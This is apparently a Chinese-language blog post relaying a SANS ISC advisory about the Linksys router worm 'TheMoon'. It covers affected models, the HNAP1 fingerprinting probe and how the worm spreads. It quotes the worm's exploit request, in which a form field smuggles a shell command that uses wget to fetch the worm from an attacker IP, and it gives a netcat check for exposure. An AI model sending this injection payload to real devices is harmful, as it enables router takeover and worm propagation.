 ```yaml
---
layout: post
title: "Linksys Worm the moon Summary"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

Linksys路由器蠕虫The Moon正在蔓延。

近日，国外安全研究者发布[Linksys路由器蠕虫预警](https://isc.sans.edu/diary/Linksys+Worm+%22TheMoon%22+Summary%3A+What+we+know+so+far/17633)。根据路由器的固件版本，E4200, E3200, E3000, E2500, E2100L, E2000, E1550, E1500, E1200, E1000,E900等型号存在被蠕虫感染的风险。

这个蠕虫首先连接路由器的8080端口，请求“/HNAP1/”这个路径。linksys路由器会返回一个包含路由器特性和固件版本的xml文档。蠕虫很可能通过解析硬件型号和固件版本来判断目标是否存在漏洞。

	<ModelName>E2500</ModelName>
	<FirmwareVersion>1.0.07 build 1</FirmwareVersion> 

这是E2500型号返回的相关信息。

之后，蠕虫会发送一个特定的请求到存在漏洞的路由器，这个请求会导致路由器执行一段shell脚本，从而感染蠕虫。

第二次的请求如下：

	submit_button=&change_action=&submit_type=&action=&commit=0&ttcp_num=2&ttcp_size=2
	&ttcp_ip=-h
    `cd /tmp;if [ ! -e .L26 ];then wget http://[source IP]:193/0Rx.mid;fi`
	&StartEPI=1

一旦被蠕虫感染，路由器就会扫描其他的ip，这个蠕虫内置了大约670个不同国家的家用网段。而且被感染的路由器在短时间内会作为http服务器供其他被感染的路由器下载蠕虫代码。

目前尚不清楚这个蠕虫网络是否存在命令和控制频道。当前它的行为仅仅是传播。

研究者在蠕虫的文件中发现了电影[《The Moon》](http://www.imdb.com/title/tt1182345/)的相关图片，所以被命名为The Moon。

可以通过以下命令来检测自己的路由器是否存在漏洞：

	echo "GET /HNAP1/ HTTP/1.1\r\nHost: test\r\n\r\n" | nc routerip 8080

如果或得了xml格式的返回数据，那么你的路由器很可能存在漏洞，有被蠕虫感染的风险。

via [isc.sans.edu](https://isc.sans.edu/diary/Linksys+Worm+%22TheMoon%22+Summary%3A+What+we+know+so+far/17633)



